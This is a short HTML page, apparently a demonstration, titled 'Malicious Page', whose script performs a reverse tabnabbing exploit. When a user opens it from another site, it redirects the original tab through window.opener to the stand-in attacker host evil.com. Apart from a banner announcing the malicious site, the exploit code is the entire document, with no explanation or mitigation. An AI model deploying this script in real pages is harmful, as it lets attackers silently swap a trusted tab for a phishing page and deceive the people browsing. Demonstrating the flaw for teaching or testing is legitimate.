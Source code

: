 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Malicious Page</title>
</head>
<body>
    <h1>You are now on a malicious site!</h1>
    <script>
        // Reverse Tabnabbing Exploit
        if (window.opener) {
            window.opener.location.href = "http://evil.com";
        }
    </script>
</body>
</html>
